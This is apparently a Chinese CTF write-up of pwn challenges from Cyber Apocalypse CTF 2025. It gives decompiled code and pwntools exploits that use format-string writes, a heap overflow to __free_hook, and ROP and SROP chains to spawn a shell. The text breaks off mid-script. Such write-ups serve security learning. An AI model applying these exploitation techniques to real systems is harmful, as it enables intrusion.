


# 2025-03-26-Cyber Apocalypse CTF 2025: Tales from Eldoria

‍

```info
https://ctftime.org/event/2674
```



‍

## vault

题目并不难，但是这题也卡了我很长时间，怪我不够细，下次要细啊（我的粗😋）

‍

* 源码（手动恢复）

‍

```c
struct Entry{
  char url[128];
  char pwd[256];
  size_t pwd_size;
};

char tmp_url[0x100];
struct Entry entries[0xA];
char global_key[0x40];
size_t num_entries = 0;


void xor_buffer(char *dst, char *src, int len){
  __int64 i; // rcx

  if ( len > 0 )
  {
    for ( i = 0LL; i != len; ++i )
      dst[i] ^= src[i & 0x3F];
  }
}

void setup(){
  unsigned int v0; // eax

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  v0 = time(0LL);
  srand(v0);
}
void init_key(){
  char *v0; // rbx

  v0 = global_key;
  do
    *v0++ = rand();
  while ( v0 != &global_key[64] );
}


void view_entries(){
  struct Entry *v0; // rcx
  const char *pwd_data; // rbx
  int str_n; // eax
  size_t me_size; // rdx
  char *v4; // r13
  unsigned __int64 v5; // r14
  __int64 v6; // rax
  __int64 v7; // rsi
  __int64 v8; // rdx
  size_t pwd_len; // rax
  struct Entry *v10; // [rsp+8h] [rbp-1D0h]
  unsigned int idx; // [rsp+1Ch] [rbp-1BCh] BYREF
  char s[392]; // [rsp+20h] [rbp-1B8h] BYREF
  unsigned __int64 v13; // [rsp+1A8h] [rbp-30h]

  v13 = __readfsqword(0x28u);
  idx = 0;
  memset(s, 0, 0x180);
  printf("Index: ");
  if ( scanf("%u%*c", &idx) == 1 )
  {
    if ( idx >= num_entries )
    {
      puts("Invalid Index.");
    }
    else
    {
      v0 = &entries[idx];
      pwd_data = v0->pwd;
      v10 = v0;
      str_n = snprintf(s, 0x180uLL, "Hostname:  %s\nPassword:    ", v0->url);
      me_size = v10->pwd_size;
      v4 = &s[str_n];
      v5 = 0x180LL - str_n;
      v6 = 0LL;
      v7 = (unsigned int)(me_size - 1);
      if ( (int)me_size > 0 )
      {
        do
        {
          pwd_data[v6] ^= global_key[v6 & 0x3F];
          v8 = v6++;
        }
        while ( v8 != v7 );
      }
      pwd_len = strlen(pwd_data);
      if ( pwd_len > v5 )
        LODWORD(pwd_len) = v5;
      if ( (unsigned int)pwd_len >= 8 )
      {
        *(_QWORD *)v4 = *(_QWORD *)pwd_data;
        *(_QWORD *)&v4[(unsigned int)pwd_len - 8] = *(_QWORD *)&pwd_data[(unsigned int)pwd_len - 8];
        qmemcpy(
          (void *)((unsigned __int64)(v4 + 8) & 0xFFFFFFFFFFFFFFF8LL),
          (const void *)(pwd_data - &v4[-((unsigned __int64)(v4 + 8) & 0xFFFFFFFFFFFFFFF8LL)]),
          8LL * (((unsigned int)pwd_len + (_DWORD)v4 - (((_DWORD)v4 + 8) & 0xFFFFFFF8)) >> 3));
      }
      else if ( (pwd_len & 4) != 0 )
      {
        *(_DWORD *)v4 = *(_DWORD *)pwd_data;
        *(_DWORD *)&v4[(unsigned int)pwd_len - 4] = *(_DWORD *)&pwd_data[(unsigned int)pwd_len - 4];
      }
      else if ( (_DWORD)pwd_len )
      {
        *v4 = *pwd_data;
        if ( (pwd_len & 2) != 0 )
          *(_WORD *)&v4[(unsigned int)pwd_len - 2] = *(_WORD *)&pwd_data[(unsigned int)pwd_len - 2];
      }
      s[0x17F] = 0;
      puts(s);
    }
  }
  else
  {
    fflush(stdin);
    puts("Invalid choice.");
  }
}


void parse_hostname(char *ptr){
  char *haystack; // [rsp+18h] [rbp-28h]
  size_t n; // [rsp+20h] [rbp-20h]
  char *v3; // [rsp+30h] [rbp-10h]
  char *v4; // [rsp+38h] [rbp-8h]

  haystack = url;
  v3 = strstr(url, "://");
  if ( v3 )
    haystack = v3 + 3;
  v4 = strchr(haystack, ':');
  if ( v4 )
  {
    n = v4 - haystack;
    if ( (unsigned __int64)(v4 - haystack) > 0x80 )
      n = 0x7FLL;
    strncpy(ptr, haystack, n);
    ptr[n] = 0;
  }
  else
  {
    strncpy(ptr, haystack, 0x80uLL);
    ptr[0x7F] = 0;
  }
}

void add_entry(){
  const char *erroinfo; // rdi
  size_t idx; // rbx
  struct Entry *ptr1; // r12
  size_t pwd_len; // rax
  size_t n_count; // rdx

  erroinfo = "Max entries reached";
  idx = num_entries;
  if ( num_entries > 9 )
    goto jmp_ret;
  printf("URL: ");
  erroinfo = "Invalid Url";
  if ( scanf("%255s", url) != 1 )
    goto jmp_ret;
  ptr1 = &entries[idx];
  parse_hostname(ptr1->url);
  printf("Password: ");
  if ( scanf("%255s", ptr1->pwd) != 1 )
  {
    erroinfo = "Invalid Password";
jmp_ret:
    puts(erroinfo);
    return;
  }
  pwd_len = strlen(ptr1->pwd);                  // pwd
  n_count = 0LL;
  ptr1->pwd_size = pwd_len;
  if ( (_DWORD)pwd_len )
  {
    do
    {
      ptr1->pwd[n_count] ^= global_key[n_count & 0x3F];
      ++n_count;
    }
    while ( pwd_len != n_count );
  }
  ++num_entries;
}


int main(int argc, const char **argv, const char **envp){
  int v4; // [rsp+4h] [rbp-34h] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-30h]

  v5 = __readfsqword(0x28u);
  setup();
  init_key();
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        puts("1. Add Entry");
        puts("2. View Entries");
        puts("3. Exit");
        printf("> ");
        if ( scanf("%d%*c", &v4) == 1 )
          break;
        fflush(stdin);
        puts("Invalid choice");
      }
      if ( v4 != 2 )
        break;
      view_entries();
    }
    if ( v4 == 3 )
      break;
    if ( v4 == 1 )
    {
      add_entry();
    }
    else
    {
      fflush(stdin);
      puts("Invalid choice.");
    }
  }
  printf("Goodbye Soldier!");
  return 0;
}

```

‍

‍

* 简单记录

‍

这些字符会导致 `scanf("%s", ...)`​ **停止读取**（即“截断”）当前输入字符串：

|ASCII 字符|描述|十六进制|十进制|
| ------------| ---------------| ----------| --------|
|​`0x09`​|制表符（Tab）|​`\t`​|9|
|​`0x0A`​|换行符（LF）|​`\n`​|10|
|​`0x0B`​|垂直制表符|​`\v`​|11|
|​`0x0C`​|换页符|​`\f`​|12|
|​`0x0D`​|回车符（CR）|​`\r`​|13|
|​`0x20`​|空格|​`' '`​|32|

‍

```python
terminators = [
    '\t',  # Tab       (0x09)
    '\n',  # Newline   (0x0A)
    '\v',  # Vertical Tab (0x0B)
    '\f',  # Form Feed (0x0C)
    '\r',  # Carriage Return (0x0D)
    ' '    # Space     (0x20)
]
ascii_values = [ord(c) for c in terminators]


# s = set(list('ABCDAAA'))
# python 去重
```

‍

* 存在一个栈溢出，可以绕过canary 但是存在pie,还有 \x00 截断

```c
void parse_hostname(char *ptr)
{
  char *haystack; // [rsp+18h] [rbp-28h]
  size_t n; // [rsp+20h] [rbp-20h]
  char *v3; // [rsp+30h] [rbp-10h]
  char *v4; // [rsp+38h] [rbp-8h]

  haystack = tmp_url; // tmp_url 最大 0xff, 
  v3 = strstr(tmp_url, "://");
  if ( v3 )
    haystack = v3 + 3;
  v4 = strchr(haystack, ':'); //假设在 0x80 匹配到 : // v4 = 0x80
  if ( v4 )                                     // 存在 v4
  {
    n = v4 - haystack;                          // n = 0x80 - 0x00  = 0x80
    if ( (unsigned __int64)(v4 - haystack) > 0x80 ) // 不大于 所有 n 不会改变
      n = 0x7FLL;
    strncpy(ptr, haystack, n);
    ptr[n] = 0; // ptr[0x80] = 0; 这里已经属于 pwd 字段了，所以说 url 空间被填满
  }
  else
  {
    strncpy(ptr, haystack, 0x80uLL);
    ptr[0x7F] = 0; 
  }
}

void add_entry(){
	......
	ptr1 = &entries[idx];
  	parse_hostname(ptr1->url);
  	printf("Password: ");
  	if ( scanf("%255s", ptr1->pwd) != 1 ) // url 和 pwd 中间没有\x00 截断了
    ......
}

void view_entries(){
	....
	char s[0x188];
	....
	str_n = snprintf(s, 0x180uLL, "Hostname:  %s\nPassword:    ", v0->url); // 由于 url 和 pwd 没有截断算一个整体，所以最大%s字符串长度0x88+0x100+原本的字符，明显溢出
	// 0x180 是指格式化之后最终copy 到 stack 上的数据，str_n 是指实际格式化后的总长度
	// str_n 可能会 大于 0x180
	.... 
	pwd_len = strlen(pwd_data); //长度多少就溢出多少
}
```

‍

 如果溢出修改原本的寄存器值是会出现任意地址泄露？

‍


‍



​​

* 转化成格式串字符串漏洞

‍


‍

```python
from pwn import *
from ctypes import CDLL
cdl = CDLL('./glibc/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = ''.replace(' ',':')
binary = './vault'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
#libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
#brva 0x001778
#brva 0x017C4
#brva 0x01873
brva 0x126D
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))

#keys = []
def genkey():
    for i in range(64):
        keys.append(cdl.rand()&0xFF)

terminators = [
    '\x00',
    '\t',  # Tab       (0x09)
    '\n',  # Newline   (0x0A)
    '\v',  # Vertical Tab (0x0B)
    '\f',  # Form Feed (0x0C)
    '\r',  # Carriage Return (0x0D)
    ' '    # Space     (0x20)
]
ascii_values = [ord(c) for c in terminators]

def rp(sizes, data):
    size = 0x100 - 0x19 + 0x18
    keyc = []
    for idx in range(size):
        i = keys[idx%len(keys)]
        tmp = i ^ 0x43
        if tmp in ascii_values:
            keyc.append(0x03)
        else:
            keyc.append(tmp)
    keyc[sizes-2] = data[0] ^ keys[(sizes-2)%len(keys)]
    keyc[sizes-1] = data[1] ^ keys[(sizes-1)%len(keys)]
    keyc[sizes] = keys[sizes%len(keys)]
    return bytes(keyc)[:size]


url = 'A' * 0x80 + ':'
def add_entry(pwd, url=url):
    ru('> ')
    sl('1')
    ru('URL: ')
    sl(url)
    ru(': ')
    sl(pwd)

def show(idx):
    ru('> ')
    sl('2')
    ru(': ')
    sl(str(idx))

for i in range(0x10):
    io = start([])
    cdl.srand(int(time.time()))
    keys = []
    genkey()
    add_entry(rp(2,p16(0x8060)))
    show(0)
    try:
        show(0)
        ru(b'3. Exit\n')
        data = io.recv().decode()
        if data != url:
            io.close()
            continue
    except:
        io.close()
        continue
    gdb.attach(io,gdbscript=gdbscript)

    sl('1')
    ru('URL: ')
    sl('%p%p%p')
    ru(': ')
    sl('123')

    io.interactive()

```

‍

‍

* exploit

‍

```python
from pwn import *
from ctypes import CDLL
cdl = CDLL('./glibc/libc.so.6')
s    = lambda   x : io.send(x)
sa   = lambda x,y : io.sendafter(x,y)
sl   = lambda   x : io.sendline(x)
sla  = lambda x,y : io.sendlineafter(x,y)
r    = lambda x   : io.recv(x)
ru   = lambda x   : io.recvuntil(x)
rl   = lambda     : io.recvline()
itr  = lambda     : io.interactive()
uu32 = lambda x   : u32(x.ljust(4,b'\x00'))
uu64 = lambda x   : u64(x.ljust(8,b'\x00'))
ls   = lambda x   : log.success(x)
lss  = lambda x   : ls('\033[1;31;40m%s -> 0x%x \033[0m' % (x, eval(x)))

attack = ''.replace(' ',':')
binary = './vault'

def start(argv=[], *a, **kw):
    if args.GDB:return gdb.debug(binary,gdbscript)
    if args.TAG:return remote(*args.TAG.split(':'))
    if args.REM:return remote(*attack.split(':'))
    return process([binary] + argv, *a, **kw)


#context(log_level = 'debug')
context(binary = binary, log_level = 'debug',
terminal='tmux splitw -h -l 170'.split(' '))
libc = context.binary.libc
#elf  = ELF(binary)
#print(context.binary.libs)
#libc = ELF('./libc.so.6')
#import socks
#context.proxy = (socks.SOCKS5, '192.168.31.251', 10808)
gdbscript = '''
#brva 0x001778
#brva 0x017C4
#brva 0x01873
brva 0x126D
#continue
'''.format(**locals())
#import os
#os.systimport os
#io = remote(*attack.split(':'))

#keys = []
def genkey():
    for i in range(64):
        keys.append(cdl.rand()&0xFF)

terminators = [
    '\x00',
    '\t',  # Tab       (0x09)
    '\n',  # Newline   (0x0A)
    '\v',  # Vertical Tab (0x0B)
    '\f',  # Form Feed (0x0C)
    '\r',  # Carriage Return (0x0D)
    ' '    # Space     (0x20)
]
ascii_values = [ord(c) for c in terminators]

def rp(sizes, data):
    size = 0x100 - 0x19 + 0x18
    keyc = []
    for idx in range(size):
        i = keys[idx%len(keys)]
        tmp = i ^ 0x43
        if tmp in ascii_values:
            keyc.append(0x03)
        else:
            keyc.append(tmp)
    keyc[sizes-2] = data[0] ^ keys[(sizes-2)%len(keys)]
    keyc[sizes-1] = data[1] ^ keys[(sizes-1)%len(keys)]
    keyc[sizes] = keys[sizes%len(keys)]
    return bytes(keyc)[:size]


url = 'A' * 0x80 + ':'
def add_entry(pwd='pwd', url=url):
    #ru('3. Exit\n')
    sl('1')
    ru('URL: ')
    sl(url)
    ru(': ')
    sl(pwd)

def show(idx):
    ru('> ')
    sl('2')
    ru(': ')
    sl(str(idx))

for i in range(0x10):
    io = start([])
    cdl.srand(int(time.time()))
    keys = []
    genkey()
    add_entry(rp(2,p16(0x8060)))
    show(0)
    try:
        show(0)
        ru(b'3. Exit\n')
        data = io.recv().decode()
        if data != url:
            io.close()
            continue
    except:
        io.close()
        continue
    

    pay  = f'-=%{6+0x3}$p-'
    pay += f'%{6+0x4}$p-'
    pay += f'%{6+0x1b}$p-'
    add_entry(url=pay)
    
    ru('-=')
    stack = int(ru('-')[:-1],16)
    elf_base = int(ru('-')[:-1],16) - 4608
    libc_base = int(ru('-')[:-1],16) - 171584

    addr1 = stack - 0x38
    pay = f'%{addr1 &0xFFFF}c%{6+0xb}$hn'
    add_entry(url=pay)


    # 0x22:0110│  0x7ffc2c391c20 —▸ 0x7ffc2c391be0 ◂— 0
    # 0x29:0148│  0x7fffdb060668 —▸ 0x7fffdb060630 —▸ 0x7fffdb060660 ◂— 1

    #addr2 = stack - 0x78
    lss('stack')
    lss('elf_base')
    lss('libc_base')
    addr2 = stack - 0x118
    #pay = f'%{addr2 & 0xFFFF}c%{6+0x29}$hn'
    #add_entry(url=pay)
    pay = p64(elf_base + 0x05100)
    for i in range(0,6,2):
        t1 = addr2 + i
        t2 = u16(pay[i:i+2])
        pay1 = f'%{t1 & 0xFFFF}c%{6+0x29}$hn'
        pay2 = f'%{t2 & 0xFFFF}c%{6+0x22}$hn'
        add_entry(url=pay1)
        add_entry(url=pay2)
        #pause()
    # 1a:00d0│  0x7ffee6333750 —▸ 0x5f2e78fe9100
    add_entry(url=f'%{6+0x6}$hn')

    libc.address = libc_base
    system = libc.sym['system']
    bin_sh = next(libc.search(b'/bin/sh'))
    rdi = next(libc.search(asm('pop rdi; ret')))
    
    addr2 += 8
    pay = p64(rdi+1) + p64(rdi) + p64(bin_sh) + p64(system)
    for i in range(len(pay)):
        t1 = addr2 + i
        #t2 = u8(pay[i])
        t2 = pay[i]
        
        if t1:
            pay1 = f'%{t1 & 0xFFFF}c%{6+0x29}$hn'
        else:
            pay1 = f'%{6+0x29}$hn'
        if t2:
            pay2 = f'%{t2 & 0xFFFF}c%{6+0x22}$hn'
        else:
            pay1 = f'%{6+0x22}$hn'

        add_entry(url=pay1)
        add_entry(url=pay2)
        add_entry(url=f'%{6+0x6}$hn')
        #pause()


    #gdb.attach(io,gdbscript=gdbscript)
    lss('stack')
    lss('elf_base')
    lss('libc_base')
    sl('3')
    io.interactive()
    exit(0)
```

## blessing

‍

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  size_t size; // [rsp+8h] [rbp-28h] BYREF
  unsigned __int64 i; // [rsp+10h] [rbp-20h]
  _QWORD *v6; // [rsp+18h] [rbp-18h]
  void *buf; // [rsp+20h] [rbp-10h]
  unsigned __int64 v8; // [rsp+28h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  setup(argc, argv, envp);
  banner();
  size = 0LL;
  v6 = malloc(0x30000uLL);
  *v6 = 1LL;
  printstr(
    "In the ancient realm of Eldoria, a roaming bard grants you good luck and offers you a gift!\n"
    "\n"
    "Please accept this: ");
  printf("%p", v6);
  sleep(1u);
  for ( i = 0LL; i <= 0xD; ++i )
  {
    printf("\b \b");
    usleep(0xEA60u);
  }
  puts("\n");
  printf(
    "%s[%sBard%s]: Now, I want something in return...\n\nHow about a song?\n\nGive me the song's length: ",
    "\x1B[1;34m",
    "\x1B[1;32m",
    "\x1B[1;34m");
  __isoc99_scanf("%lu", &size); // 直接输入 v6的地址
  buf = malloc(size); // size太大 malloc会返回 0，buf = 0
  printf("\n%s[%sBard%s]: Excellent! Now tell me the song: ", "\x1B[1;34m", "\x1B[1;32m", "\x1B[1;34m");
  read(0, buf, size); // read(0, 0, size) 
  *(_QWORD *)((char *)buf + size - 1) = 0LL; //buf + size = size,所以说会清空 v6[0]
  write(1, buf, size);
  if ( *v6 )
    printf("\n%s[%sBard%s]: Your song was not as good as expected...\n\n", "\x1B[1;31m", "\x1B[1;32m", "\x1B[1;31m");
  else
    read_flag();
  return 0;
}
```

‍

```python
io = start([])
#gdb.attach(io,gdbscript)
ru('Please accept this: ')
addr = int(r(14),16)
lss('addr')
ru(" me the song's length: ")
#size = 0x2FFF8
size = addr
sl(str(size))

itr()
```

‍

‍

## strategist

‍

* 菜单堆

```c
unsigned __int64 __fastcall edit_plan(__int64 *heap_list)
{
  size_t v1; // rax
  unsigned int idx; // [rsp+14h] [rbp-Ch] BYREF
  unsigned __int64 v4; // [rsp+18h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("%s\n[%sSir Alaric%s]: Which plan you want to change?\n\n> ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  idx = 0;
  __isoc99_scanf("%d", &idx);
  if ( idx >= 0x64 || !heap_list[idx] )
  {
    printf("%s\n[%sSir Alaric%s]: There is no such plan!\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
    exit(1312);
  }
  printf("%s\n[%sSir Alaric%s]: Please elaborate on your new plan.\n\n> ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  v1 = strlen((const char *)heap_list[idx]); // 漏洞点，堆块内容填满，会把下面chunk 的 size 也计算进去
  read(0, (void *)heap_list[idx], v1);		 // 堆溢出漏洞
  putchar(10);
  return __readfsqword(0x28u) ^ v4;
}
```

‍

```python
io = start([])

def add(size,text='A'):
    ru('\n> ')
    sl('1')
    ru('\n> ')
    sl(str(size))
    ru('\n> ')
    s(text)

def show(idx):
    ru('\n> ')
    sl('2')
    ru('\n> ')
    sl(str(idx))

def edit(idx,text):
    ru('\n> ')
    sl('3')
    ru('\n> ')
    sl(str(idx))
    ru('\n> ')
    s(text)
def rm(idx):
    ru('\n> ')
    sl('4')
    ru('\n> ')
    sl(str(idx))


add(0x448,'A'*0x448)
add(0xF8)
add(0xF8)
add(0xF8)

pay = b'A'*0x448 + p16(0x201)
edit(0,pay)
rm(0)
rm(1)
rm(3)
rm(2)

add(0x18)
show(0)
ru('[0]: ')
libc_base = uu64(r(6)) - 4112449
lss('libc_base')
libc.address = libc_base

pay = b'A' * 0xF8 + p64(0x101) + p64(libc.sym['__free_hook'])
add(0x1F8,pay)


add(0xF8,'/bin/sh\x00')
add(0xF8,p64(libc.sym['system']))
rm(2)
itr()

```

‍

## contractor

‍

```c
unsigned __int64 contract()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  execl("/bin/sh", "sh", 0LL);
  return __readfsqword(0x28u) ^ v1;
}

int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *v3; // rsp
  int v5; // [rsp+8h] [rbp-20h] BYREF
  int v6; // [rsp+Ch] [rbp-1Ch]
  char *s; // [rsp+10h] [rbp-18h]
  char s1[4]; // [rsp+1Ch] [rbp-Ch] BYREF
  unsigned __int64 v9; // [rsp+20h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v3 = alloca(0x130LL);
  s = (char *)&v5;
  memset(&v5, 0, 0x128uLL);
  printf(
    "%s[%sSir Alaric%s]: Young lad, I'm truly glad you want to join forces with me, but first I need you to tell me some "
    "things about you.. Please introduce yourself. What is your name?\n"
    "\n"
    "> ",
    "\x1B[1;34m",
    "\x1B[1;33m",
    "\x1B[1;34m");
  for ( i = 0; (unsigned int)i <= 0xF; ++i )
  {
    read(0, &safe_buffer, 1uLL);
    if ( safe_buffer == 10 )
      break;
    s[i] = safe_buffer;
  }
  printf(
    "\n[%sSir Alaric%s]: Excellent! Now can you tell me the reason you want to join me?\n\n> ",
    "\x1B[1;33m",
    "\x1B[1;34m");
  for ( i = 0; (unsigned int)i <= 0xFF; ++i )
  {
    read(0, &safe_buffer, 1uLL);
    if ( safe_buffer == 10 )
      break;
    s[i + 0x10] = safe_buffer;
  }
  printf(
    "\n[%sSir Alaric%s]: That's quite the reason why! And what is your age again?\n\n> ",
    "\x1B[1;33m",
    "\x1B[1;34m");
  __isoc99_scanf("%ld", s + 272);
  printf(
    "\n"
    "[%sSir Alaric%s]: You sound mature and experienced! One last thing, you have a certain specialty in combat?\n"
    "\n"
    "> ",
    "\x1B[1;33m",
    "\x1B[1;34m");
  for ( i = 0; (unsigned int)i <= 0xF; ++i )          // specialty  只有 0x10 空间 后面紧接着一个一个地址，填满后可以在 下面的输出泄露地址
  {
    read(0, &safe_buffer, 1uLL);
    if ( safe_buffer == 10 )
      break;
    s[i + 0x118] = safe_buffer;
  }
  printf(
    "\n"
    "[%sSir Alaric%s]: So, to sum things up: \n"
    "\n"
    "+------------------------------------------------------------------------+\n"
    "\n"
    "\t[Name]: %s\n"
    "\t[Reason to join]: %s\n"
    "\t[Age]: %ld\n"
    "\t[Specialty]: %s\n"
    "\n"
    "+------------------------------------------------------------------------+\n"
    "\n",
    "\x1B[1;33m",
    "\x1B[1;34m",
    s,
    s + 16,
    *((_QWORD *)s + 0x22),
    s + 280);
  v6 = 0;
  printf(
    "[%sSir Alaric%s]: Please review and verify that your information is true and correct.\n",
    "\x1B[1;33m",
    "\x1B[1;34m");
  do
  {
    printf("\n1. Name      2. Reason\n3. Age       4. Specialty\n\n> ");
    __isoc99_scanf("%d", &v5);
    if ( v5 == 4 )
    {
      printf("\n%s[%sSir Alaric%s]: And what are you good at: ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
      for ( i = 0; (unsigned int)i <= 0xFF; ++i )    // 可以更改 Specialty，但是这里就可以输入 0xFF ，明显溢出
      {
        read(0, &safe_buffer, 1uLL);
        if ( safe_buffer == 10 )
          break;
        s[i + 280] = safe_buffer;
      }
      ++v6;
    }
    else
    {
      if ( v5 > 4 )
        goto LABEL_36;
      switch ( v5 )
      {
        case 3:
          printf(
            "\n%s[%sSir Alaric%s]: Did you say you are 120 years old? Please specify again: ",
            "\x1B[1;34m",
            "\x1B[1;33m",
            "\x1B[1;34m");
          __isoc99_scanf("%d", s + 272);
          ++v6;
          break;
        case 1:
          printf("\n%s[%sSir Alaric%s]: Say your name again: ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
          for ( i = 0; (unsigned int)i <= 0xF; ++i )
          {
            read(0, &safe_buffer, 1uLL);
            if ( safe_buffer == 10 )
              break;
            s[i] = safe_buffer;
          }
          ++v6;
          break;
        case 2:
          printf("\n%s[%sSir Alaric%s]: Specify the reason again please: ", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
          for ( i = 0; (unsigned int)i <= 0xFF; ++i )
          {
            read(0, &safe_buffer, 1uLL);
            if ( safe_buffer == 10 )
              break;
            s[i + 16] = safe_buffer;
          }
          ++v6;
          break;
        default:
LABEL_36:
          printf("\n%s[%sSir Alaric%s]: Are you mocking me kid??\n\n", "\x1B[1;31m", "\x1B[1;33m", "\x1B[1;31m");
          exit(1312);
      }
    }
    if ( v6 == 1 )
    {
      printf(
        "\n%s[%sSir Alaric%s]: I suppose everything is correct now?\n\n> ",
        "\x1B[1;34m",
        "\x1B[1;33m",
        "\x1B[1;34m");
      for ( i = 0; (unsigned int)i <= 3; ++i )
      {
        read(0, &safe_buffer, 1uLL);
        if ( safe_buffer == 10 )
          break;
        s1[i] = safe_buffer;
      }
      if ( !strncmp(s1, "Yes", 3uLL) )
        break;
    }
  }
  while ( v6 <= 1 );
  printf("\n%s[%sSir Alaric%s]: We are ready to recruit you young lad!\n\n", "\x1B[1;34m", "\x1B[1;33m", "\x1B[1;34m");
  return 0;
}
```

‍

‍

```python
io = start([])


ru('\n> ')
name = 'A' * 0x10
s(name)

ru('\n> ')
jo = 'B' * 0x100
s(jo)

ru('\n> ')
age = 0xbeefbeef
sl(str(age))


ru('\n> ')
spec = 'T' * 0x10
s(spec)


ru('T'*0x10)
bd = uu64(r(6)) - 6992 + 0x135C
lss('bd')

#gdb.attach(io,gdbscript)
ru('\n> ')
sl('4')

ru(':')
pay  = b'Y' * 0x20
pay += p8(0x80-1)
pay += p64(bd) * 5
s(pay)

ru('at:')
sl('Yes')
sl('cat flag.txt')
sl('cat flag.txt')

itr()

```

‍

## laconic

‍

```x86asm
.shellcode:0000000000043000 ; ===========================================================================
.shellcode:0000000000043000
.shellcode:0000000000043000 ; Segment type: Pure code
.shellcode:0000000000043000 ; Segment permissions: Read/Write/Execute
.shellcode:0000000000043000 _shellcode      segment byte public 'CODE' use64
.shellcode:0000000000043000                 assume cs:_shellcode
.shellcode:0000000000043000                 ;org 43000h
.shellcode:0000000000043000                 assume es:nothing, ss:nothing, ds:LOAD, fs:nothing, gs:nothing
.shellcode:0000000000043000
.shellcode:0000000000043000 ; =============== S U B R O U T I N E =======================================
.shellcode:0000000000043000
.shellcode:0000000000043000
.shellcode:0000000000043000 ; void start()
.shellcode:0000000000043000                 public _start
.shellcode:0000000000043000 _start          proc near               ; DATA XREF: LOAD:0000000000042018↑o
.shellcode:0000000000043000                                         ; LOAD:0000000000042088↑o
.shellcode:0000000000043000                 mov     rdi, 0          ; Alternative name is '_start'
.shellcode:0000000000043000                                         ; __start
.shellcode:0000000000043007                 mov     rsi, rsp
.shellcode:000000000004300A                 sub     rsi, 8
.shellcode:000000000004300E                 mov     rdx, 106h
.shellcode:0000000000043015                 syscall                 ; LINUX -
.shellcode:0000000000043017                 retn
.shellcode:0000000000043017 _start          endp
.shellcode:0000000000043017
.shellcode:0000000000043018 ; ---------------------------------------------------------------------------
.shellcode:0000000000043018                 pop     rax
.shellcode:0000000000043019                 retn
.shellcode:0000000000043019 _shellcode      ends
.shellcode:0000000000043019

####################################################
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x42000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

‍

RWX 段，栈溢出，SROP

‍

```python
io = start([])

pause()

pay  = p64(0xbeef)
pay += p64(0x43018)
pay += p64(0xf)
pay += p64(0x43015)

bss = 0x043020
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = bss
sigframe.rdx = 0x100
sigframe.rsp = bss
sigframe.rip = 0x43015
